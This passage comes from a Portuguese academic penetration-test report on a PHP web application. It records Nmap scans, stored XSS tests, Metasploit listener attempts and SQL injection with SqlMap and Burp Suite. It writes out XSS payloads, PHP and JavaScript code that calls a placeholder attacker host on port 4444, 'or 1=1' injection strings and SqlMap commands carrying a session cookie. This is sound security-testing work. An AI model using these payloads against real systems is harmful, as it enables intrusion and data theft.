\paragraph*{Resultado esperado}

Espera-se que a tela de Login não seja vulnerável à injeção de SQL e consequentemente não seja possível descobrir o nome do banco de dados utilizado pela aplicação.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Embora tendo aumentado o nível da heurística utilizada no escaneamento, não possível encontrar vulnerabilidade na página e, por consequência disso, não foi possível descobrir o nome do banco de dados utilizado pelo sistema.



\subsection{Iteração 4}


\subsubsection*{Atividade: análise do Servidor via Nmap}

Tarefa realizada dia 12/04/16.


Duração total das sessões executadas: 1 hora.



\paragraph*{Objetivo}

Após o problema de corrupção do sistema operacional do servidor de dados da aplicação, relatado na seção ATA 05 do subcapítulo 4.2, houve mudanças na arquitetura do ambiente de testes. Então a máquina que hospeda a aplicação web também passou a hospedar a base de dados.


Com essa migração alguns serviços adicionais precisaram ser abertos, isso possibilitou que algum serviço adicional não tenha sido fechado no término do processo. A atividade foi refeita para descobrir se algum serviço adicional foi deixado aberto.



\paragraph*{Varredura 1}

Usar o Nmap para varrer as portas 1 a 65.535 do sistema usando o scan TCP.


\emph{Comando utilizado: nmap -sV -p 1-65535 IP\_do\_servidor}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}nmap\textquotedblright{} é utilizado para executar a ferramenta Nmap;
	
\item \textquotedblleft{}-sV\textquotedblright{} é utilizado para realizar o SYN e buscar a versão do software rodando no momento;
	
\item \textquotedblleft{}-p\textquotedblright{} indica quais as portas serão usadas na varredura, o delimitador~é \textquotedblleft{}-\textquotedblright{};
	
\item \emph{IP\_do\_servidor} informa o IP onde está hospedada a aplicação.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se descobrir as portas abertas, os serviços e a versão dos serviços que essas portas rodam no momento do escaneamento.



\paragraph*{Relatório de execução}

De acordo com a Figura 19, foi possível descobrir as portas abertas e a versão dos serviços que estavam rodando nessas portas no momento do escaneamento.





\begin{figure}[htp]
\centering
\caption{Portas TCP escaneadas pelo Nmap.}

\includegraphics[width=450px]{image15.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Serviços encontrados na Figura 19:



\begin{itemize}
	
\item Microsoft Windows RPC - Ferramenta semelhante ao TeamViewer que conecta o computador criando um esquema de servidor - cliente;
	
\item Microsoft Windows microsoft-ds - Ferramenta que auxilia a implantação de imagens em uma distribuição Windows.
	
\item Apache httpd -- Servidor Web.
	
\item Microsoft Windows 98 netbios-ssn -- Api que fornece serviços relacionados com a camada de Transporte do modelo OSI para permitir a comunicação de aplicativos locais.
	
\item Microsoft Firmware Ppt -- Protocolo de transferência ponto a ponto.
	
\item ms-wbt-server -- serviço de gerenciamento de hosts~ do windows.

\end{itemize}


%\begin{enumerate}[start=1]

%\end{enumerate}


\paragraph*{Varredura 2}

Usar o Nmap para varrer as portas 1 a 65.535 do sistema usando o scan de portas UDP.


\emph{Comando utilizado: nmap -sU -p 1-65535 IP\_do\_servidor}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}nmap\textquotedblright{} é utilizado para executar a ferramenta Nmap;
	
\item \textquotedblleft{}-sU\textquotedblright{} indica o uso do detector de portas UDP;
	
\item \textquotedblleft{}-p\textquotedblright{} indicará quais as portas serão usadas na varredura, o delimitador é \textquotedblleft{}-\textquotedblright{};
	
\item IP\_do\_servidor informa o IP onde está hospedada a aplicação.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se descobrir as portas abertas UDP, os serviços que essas portas rodam no momento do escaneamento.



\paragraph*{Relatório de execução}

De acordo com a Figura 20, foi possível descobrir as portas abertas e os serviços que estavam rodando nessas portas no momento do escaneamento.





\begin{figure}[htp]
\centering
\caption{Portas UDP escaneadas pelo Nmap.}

\includegraphics[width=450px]{image16.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Serviços encontrados na Figura 20:



\begin{itemize}
	
\item netbios-ns - responsável pelo registro de nomes de aplicação do NetBios \citep{62208};
	
\item netbios -dgm - serviço de datagrams do NetBios;
	
\item snmp~\citep{62209} - gerenciamento de redes;
	
\item microsoft-ds - protocolo utilizado pelo sistema operacional Windows para compartilhamento e impressões de arquivos;
	
\item L2TP (Protocolo de Encapsulamento de Camada 2) \citep{62215}-- Protocolo de encapsulamento da Internet, utilizado por uma conexão de VPN (rede virtual privada) para acessar uma rede privada;
	
\item nat-t-like - protocolo de tradução de ips.
	
\item ntp \citep{62207}~- protocolo de sincronização de relógios usando UDP.

\end{itemize}

~



\subsubsection*{Tela Cadastro Lotes -- Exploração via XSS}

Tarefa realizada dia 19/04/16.


Duração total das sessões executadas: 1 hora e 10 minutos.



\paragraph*{Objetivo}

Descobrir se os campos da tela de Cadastro Lotes são vulneráveis ao ataque XSS Armazenado.



\paragraph*{Sessão de teste 1}

Inserir em um dos campos o seguinte código:


\emph{$\textless$script$\textgreater$ alert(\textquotedblleft{}oi\textquotedblright{});$\textless$/script$\textgreater$ }no campo Marca/Fabricante\emph{.}


Caso a aplicação não realize um tratamento adequado dos dados inseridos, ao serem carregados pelo banco de dados, esses dados devem produzir um pop-up com o texto \textquotedblleft{}oi\textquotedblright{}.



\paragraph*{Resultado esperado}

Espera-se que o sistema realize um tratamento nos dados de entrada e o código inserido não seja executado quando a página carregar.



\paragraph*{Relatório de execução}

O sistema não passou nos testes. Conforme mostra a Figura , foi constatado que a aplicação não está fazendo o tratamento adequado para a inserção de códigos mal-intencionados nos campos da tela em questão.





\begin{figure}[htp]
\centering
\caption{Resultado teste XSS.}

\includegraphics[width=450px]{image17.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\paragraph*{Sessão de teste 2}

Através da ferramenta Metasploit, estabelecer uma conexão entre a máquina virtual utilizada para testes, a qual utiliza o Kali Linux, e a máquina que hospeda o sistema explorado para acessar o sistema operacional dessa última.


Sabendo que o sistema utiliza a linguagem PHP, os testes realizados na Sessão 2 e Sessão 3 utilizarão códigos PHP.


Passos utilizados:



\begin{enumerate}[start=1]
	
\item Utilizar o Metasploit para abrir um listener na porta 4444 da máquina virtual utilizada para testes, usando o exploit disponível em\emph{ Auxiliary/Multi/Handler};
	
\item Usar um comando GET de Javascript para abrir a conexão da máquina que hospeda o sistema explorado com a máquina virtual utilizada para testes na porta indicada.

\end{enumerate}

Comando a ser utilizado no XSS, o código abaixo tenta abrir uma conexão do tipo $\lq$GET\rq{} com IP\_do\_kali\_linux na porta 4444.


$\textless$?php


\$curl = curl\_init('\seqsplit{http://IP\_do\_kali\_linux:4444}');


curl\_exec(\$curl);


curl\_close(\$curl);


?$\textgreater$


Caso não haja o devido tratamento, o listener do Metasploit aberto na porta 4444 deve criar uma conexão entre a máquina hospeda a aplicação e a máquina utilizada para testes



\paragraph*{Resultado esperado}

A aplicação deve realizar o tratamento para impedir o comando de ser executado.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A sessão do Meterpreter, abordado no subcapítulo 3.2, não foi aberta.



\paragraph*{Sessão de teste 3}

Alterar o comando utilizado na Sessão de teste 2 para tentar descobrir o que impediu a sessão do Meterpreter ser aberta.


O código abaixo tenta abrir uma conexão com o IP\_do\_kali\_linux na porta 4444 e caso haja um~erro exibe o problema num pop-up.


$\textless$?php


\$curl = curl\_init('\seqsplit{http://IP\_do\_kali\_linux:4444}');


if(!curl\_exec(\$curl))\{


~~~~~~~~~~~ javascript:alert(curl\_error(\$curl));


\}


curl\_close(\$curl);


?$\textgreater$



\paragraph*{Resultado esperado}

A aplicação deve realizar o tratamento para impedir o comando de ser executado.



\paragraph*{Relatório de execução}

Não foi possível armazenar o comando usado no ataque, porque o tamanho limite permitido na base de dados da aplicação para o campo utilizado no teste é menor que a quantidade de caracteres utilizados do comando.



\paragraph*{Sessão de teste 4}

Ao contrário das sessões de testes 2 e 3, que utilizaram códigos PHP, aqui serão utilizados códigos de Javascript puro. Uma vez que, códigos Javascript podem ser lidos por qualquer navegador.


O código abaixo cria um objeto do tipo XMLHttpRequest e tenta realizar uma chamada Ajax do tipo GET para o IP\_do\_kali\_linux na porta 4444, de forma síncrona.


$\textless$script$\textgreater$


r = new XMLHttpRequest();


r.open(''GET``,\rq{}\seqsplit{http://IP\_do\_kali\_linux:4444}\rq{},false);


r.send();


$\textless$/script$\textgreater$



\paragraph*{Resultado esperado}

O esperado é que a aplicação realize tratamento para impedir o código de ser executado.



\paragraph*{Relatório de execução}

O sistema não passou nos testes. Independente da sessão do Meterpreter não ser aberta, o código conseguiu ser inserido e executado.





\subsubsection*{Tela Cadastro Lotes -- Exploração via SQL Injection e SqlMap}

Tarefa realizada dia 19/04/16.


Duração total das sessões executadas: 1 hora e 22 minutos.



\paragraph*{Objetivo}

Tentar realizar consultas não autorizadas no banco de dados por meio da injeção de SQL nos campos da tela de Cadastro Lotes.



\paragraph*{Sessão de teste 1}

Descobrir se o campo Marca/Fabricante é vulnerável a SQL Injection através das aspas simples.


\emph{Comando utilizado: 1 $\lq$}


O uso de aspas simples aqui é o teste mais básico de vulnerabilidade de um campo para SQL Injection. Imagina-se que haja por baixo uma instrução SQL que possua\emph{ where param1 = $\textless$parametro\_na\_interface$\textgreater$ and \ldots{} }


Caso a aplicação não realize o devido tratamento do comando inserido e a instrução poderá ser modificada para \emph{where param1 ~= 1 $\lq$ , o} que ocasionaria um erro de SQL.



\paragraph*{Resultado esperado}

Espera-se que a aplicação realize o tratamento dos caracteres para impedir que sejam interpretados como trecho da consulta.



\paragraph*{Relatório de execução}



O sistema passou nos testes. Colocando 1$\lq$ no campo \emph{Marca/Fabricante} o cadastro aconteceu normalmente. Isso indica que a aplicação está fazendo um tratamento adequado para os dados de entrada e por isso o campo não é vulnerável.



\paragraph*{Sessão de teste 2}

Usar a ferramenta SqlMap para realizar testes de injeção de SQL na página Cadastro Lotes.


Através da ferramenta Burp Suite, capturar a requisição POST realizada para o acesso à página em questão e salvar em um arquivo a parte para que esses dados possam ser utilizados pelo SqlMap posteriormente.~\citep{62205}


\emph{Comando utilizado: sqlmap -r params -p --current-db}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}sqlmap\textquotedblright{} executa a ferramenta SqlMap;
	
\item O comando \textquotedblleft{}-r\textquotedblright{} informa que as instruções do ataque devem ser carregadas no arquivo \emph{params;}
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro a ser injetado pelo SqlMap, que nesse caso corresponde a um parâmetro de entrada de dados utilizado pela tela explorada;
	
\item \textquotedblleft{}--current-db\textquotedblright{} solicita que o SqlMap que tente descobrir qual o banco da aplicação alvo.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que a aplicação faça o tratamento dos parâmetros, não permitindo que eles sejam vulneráveis à injeção de SQL.



\paragraph*{Relatório de execução}

Erro na ferramenta. O parâmetro não foi indicado corretamente no comando utilizado. Dessa forma, o SqlMap não reconheceu o parâmetro, que está no arquivo \emph{params}.



\paragraph*{Sessão de teste 3}

Alterar o comando utilizado na Sessão de teste 2 para indicar corretamente o parâmetro a ser testado pelo SqlMap.


O comando do SqlMap pede que seja informado um parâmetro para possível injeção de SQL.


\emph{Comando utilizado: sqlmap -r params -p descricao --current-db}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}sqlmap\textquotedblright{} executa a ferramenta SqlMap;
	
\item O comando \textquotedblleft{}-r\textquotedblright{} informa que as instruções do ataque devem ser carregadas no arquivo \emph{params;}
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro a ser injetado pelo SqlMap, que nesse caso corresponde a um parâmetro de entrada de dados utilizado pela tela explorada;
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro que deve ser injetado pelo SqlMap, que nesse caso corresponde a um parâmetro de entrada de dados utilizado pela tela explorada.;
	
\item \textquotedblleft{}--current-db\textquotedblright{} solicita que o SqlMap que tente descobrir qual o banco da aplicação alvo.

\end{enumerate}


%\begin{enumerate}[start=1]

%\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que a aplicação faça o tratamento do parâmetro~\textquotedblleft{}\emph{descricao}\textquotedblright{} e não permita que ele seja vulnerável à injeção de SQL.



\paragraph*{Relatório de execução}

O sistema passou nos testes\textbf{.} O parâmetro \textquotedblleft{}\emph{descricao}\textquotedblright{} para teste de injeção SQL não é injetável conforme mostra a Figura 22.





\begin{figure}[htp]
\centering
\caption{Resultado aplicação SQL Injection via SqlMap.}

\includegraphics[width=450px]{image18.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi





\paragraph*{Sessão de teste 4}

Alterar o comando utilizado na Sessão de teste 2 para incluir o parâmetro \textquotedblleft{}\emph{validade\textquotedblright{}}.


Tentar injeção de SQL no parâmetro \textquotedblleft{}validade\textquotedblright{}.


\emph{Comando utilizado: sqlmap -r params -p validade}



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}sqlmap\textquotedblright{} executa a ferramenta SqlMap;
	
\item O comando \textquotedblleft{}-r\textquotedblright{} informa que as instruções do ataque devem ser carregadas no arquivo \emph{params;}
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro a ser injetado pelo SqlMap, que nesse caso corresponde a um parâmetro de entrada de dados utilizado pela tela explorada;
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro que deve ser injetado pelo SqlMap, que nesse caso corresponde a um parâmetro de entrada de dados utilizado pela tela explorada.;
	
\item \textquotedblleft{}validade\textquotedblright{} é o parâmetro que sofrerá sessão de teste de injeção SQL.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que a aplicação faça o tratamento do parâmetro \textquotedblleft{}validade\textquotedblright{} e não permita que o campo seja injetável à SQL.



\paragraph*{Relatório de execução}

O sistema passou nos testes\textbf{. }O parâmetro \textquotedblleft{}validade\textquotedblright{} escolhido para teste de injeção SQL não é injetável conforme mostra a Figura 23.





\begin{figure}[htp]
\centering
\caption{Resultado exploração Sql Injection no campo validade via SqlMap.}

\includegraphics[width=447px]{image19.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\paragraph*{Sessão de teste 5}

Alterar o comando utilizado na Sessão de teste 2 para incluir o parâmetro \emph{\textquotedblleft{}vacina\textquotedblright{}}.


Tentar injeção de SQL no parâmetro \textquotedblleft{}\emph{vacina}\textquotedblright{}.


\emph{Comando}: sqlmap --r params --p vacina



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}sqlmap\textquotedblright{} executa a ferramenta SqlMap;
	
\item O comando \textquotedblleft{}-r\textquotedblright{} informa que as instruções do ataque devem ser carregadas no arquivo \emph{params;}
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro a ser injetado pelo SqlMap, que nesse caso corresponde a um parâmetro de entrada de dados utilizado pela tela explorada;
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro que deve ser injetado pelo SqlMap, que nesse caso corresponde a um parâmetro de entrada de dados utilizado pela tela explorada.;
	
\item \textquotedblleft{}vacina\textquotedblright{} é o atributo que sofrerá sessão de teste de injeção SQL.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que a aplicação faça o tratamento do parâmetro \textquotedblleft{}vacina\textquotedblright{} e não permita que o campo seja injetável à SQL.



\paragraph*{Relatório de execução}

O sistema passou nos testes\textbf{. }O parâmetro \textquotedblleft{}vacina\textquotedblright{} escolhido para teste de injeção SQL não é injetável conforme mostra a Figura 24.





\begin{figure}[htp]
\centering
\caption{Resultado exploração Sql Injection no campo vacina via SqlMap.}

\includegraphics[width=447px]{image20.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\paragraph*{Sessão de teste 6}

Alterar o comando utilizado na Sessão de teste 2 para incluir o parâmetro \textquotedblleft{}\emph{cadastro\textquotedblright{}}.


Tentar injeção de SQL no parâmetro \textquotedblleft{}\emph{cadastro}\textquotedblright{}.


\emph{Comando}: sqlmap -r params -p cadastro



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}sqlmap\textquotedblright{} executa a ferramenta SqlMap.
	
\item O comando \textquotedblleft{}-r\textquotedblright{} indica ao programa que as instruções do ataque devem ser carregadas no arquivo \emph{params}.
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro que deve ser injetado.
	
\item \textquotedblleft{}cadastro\textquotedblright{} é o atributo que sofrerá sessão de teste de injeção SQL.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que a aplicação faça o tratamento do parâmetro \textquotedblleft{}cadastro\textquotedblright{} e não permita que o campo seja injetável à SQL.



\paragraph*{Relatório de execução}

O sistema passou nos testes. O parâmetro \textquotedblleft{}cadastro\textquotedblright{} escolhido para teste de injeção SQL não é injetável conforme mostra a Figura 25.





\begin{figure}[htp]
\centering
\caption{Resultado exploração Sql Injection no campo cadastro via SqlMap.}

\includegraphics[width=450px]{image21.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\paragraph*{Sessão de teste 7}

Alterar o comando utilizado na Sessão de teste 2 para incluir o parâmetro \textquotedblleft{}\emph{ok}\textquotedblright{}.


Tentar injeção de SQL no parâmetro \textquotedblleft{}\emph{ok}\textquotedblright{}.


\emph{Comando: sqlmap -r params -p ok}



\begin{enumerate}[start=1]
	
\item O comando \textquotedblleft{}-r\textquotedblright{} indica ao programa que as instruções do ataque devem ser carregadas no arquivo \emph{params;}
	
\item \textquotedblleft{}-p\textquotedblright{} indica o parâmetro que deve ser injetado;
	
\item \textquotedblleft{}ok\textquotedblright{} é o atributo que sofrerá sessão de teste de injeção SQL.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que a aplicação faça o tratamento do parâmetro~\textquotedblleft{}ok\textquotedblright{} e não permita que o campo seja injetável à SQL.



\paragraph*{Relatório de execução}

O sistema passou nos testes\textbf{. }O parâmetro \textquotedblleft{}ok\textquotedblright{} escolhido para teste de injeção SQL não é injetável conforme mostra a Figura 26.





\begin{figure}[htp]
\centering
\caption{Resultado exploração Sql Injection no parâmetro ok via SqlMap}

\includegraphics[width=450px]{image22.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi



\paragraph*{~}


\subsubsection*{Tela Consulta Servidor -- Exploração via SQL Injection}

Tarefa realizada dia 18/04/16.


Duração total das sessões executadas: 1 hora e 40 minutos.



\paragraph*{Objetivo~}

Submeter entradas maliciosas no sistema através de injeção de códigos SQL na página de Consulta Servidor para forçar ações não autorizadas no sistema.



\paragraph*{Sessão de teste 1}

Verificar se o campo \textquotedblleft{}\emph{Siape\textquotedblright{}} é vulnerável à injeção de código SQL utilizando a técnica de concatenação de aspas simples.


Entrada: 1000\rq{}



\paragraph*{Resultado esperado}

Espera-se que o sistema realize o tratamento do caractere aspa simples como um parâmetro regular da consulta.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A aplicação realizou o tratamento de dados de entrada e não permitiu a injeção de instruções SQL através do campo de \textquotedblleft{}\emph{Siape}\textquotedblright{}.



\paragraph*{Sessão de teste 2}

Inserir um texto com uma distribuição adequada de aspa simples e comentários inline como entrada no campo \textquotedblleft{}\emph{Siape}\textquotedblright{}, a fim de modificar a instrução SQL utilizada pelo sistema para consultar dados referentes ao siape de usuários cadastrados. Comentários inline, como \textquotedblleft{}--\textquotedblleft{} e \textquotedblleft{}\#\textquotedblright{}, serão utilizados para forçar o interpretador de SQL da aplicação a ignorar todas as instruções SQL que vierem após o comentário inserido.


Entradas:



\begin{enumerate}[start=1]
	
\item 1000 or 1=1 \#~
	
\item 1000 or 1=1 --

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que o sistema realize o tratamento para impedir que os comentários inline modifiquem a instrução de consulta utilizada pela aplicação.



\paragraph*{Relatório de execução}

O sistema passou nos testes. A aplicação realizou o tratamento dos dados de entrada, não permitindo a mudança de comportamento da instrução SQL utilizada pelo sistema para consultar os dados dos usuários cadastrados.





\subsubsection*{Tela Consulta Servidor -- Exploração via SqlMap}

Tarefa realizada no~dia~19/04/16.


Duração total das sessões executadas: 3 horas e 30 minutos.



\paragraph*{Objetivo}

Utilizar a ferramenta SqlMap para automatizar o processo de detecção de vulnerabilidades na tela de Consulta Servidor a partir de injeção de códigos SQL.



\paragraph*{Sessão de teste 1}

Verificar se a tela Consulta Servidor é vulnerável a injeção de código SQL e, caso haja vulnerabilidade, conseguir obter o nome do banco de dados utilizado pelo sistema.


Para realizar essa sessão de teste, foi necessário utilizar a ferramenta Burp Suite para capturar as informações de cookie contidas no cabeçalho HTTP da requisição no momento em que a página de Consulta Servidor é acessada. A Figura 27~mostra os dados obtidos através do Burp Suite.





\begin{figure}[htp]
\centering
\caption{Parâmetros da página Consulta Servidor obtidos através do Burp Suite.}

\includegraphics[width=450px]{imagem23Editada.jpeg}
\end{figure}
\ifdefined\FloatBarrier \FloatBarrier \fi


Entrada:


./sqlmap.py -u ''\seqsplit{http://IP\_do\_servidor/nomeSistema/index.php?pg=servidores}``


--cookie=''PHSESSID=75ce718b37088517cafla733d53c60f`` --current -db



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}./sqlmap.py\textquotedblright{} comando utilizado para executar a aplicação;
	
\item \textquotedblleft{}-u\textquotedblright{} especifica a URL alvo da página a ser explorada;
	
\item \textquotedblleft{}--cookie\textquotedblright{} especifica um cookie de sessão válido a ser passado para o SqlMap durante o ataque;
	
\item \textquotedblleft{}--current -db\textquotedblright{} comando utilizado para obter o nome do banco de dados utilizado pelo sistema alvo.

\end{enumerate}


\paragraph*{Resultado esperado}

Espera-se que a tela de Consulta Servidor não seja vulnerável à injeção de SQL e consequentemente não seja possível descobrir o nome do banco de dados utilizado pela aplicação.



\paragraph*{Relatório de execução}

O sistema passou nos testes. Não possível encontrar vulnerabilidade na página e consequentemente não foi possível descobrir o nome do banco de dados utilizado no sistema.



\paragraph*{Sessão de teste 2}

Repetir a ação da Sessão de teste 1 e aumentando o nível de heurística aplicada pelo SqlMap na injeção de SQL para o valor máximo: 5.


Entrada:


./sqlmap.py -u ''\seqsplit{http://IP\_do\_servidor/nomeSistema/index.php?pg=servidores}``


--cookie=''PHSESSID=75ce718b37088517cafla733d53c60f`` --current -db~ --level 5



\begin{enumerate}[start=1]
	
\item \textquotedblleft{}./sqlmap.py\textquotedblright{} comando utilizado para executar a aplicação.
	
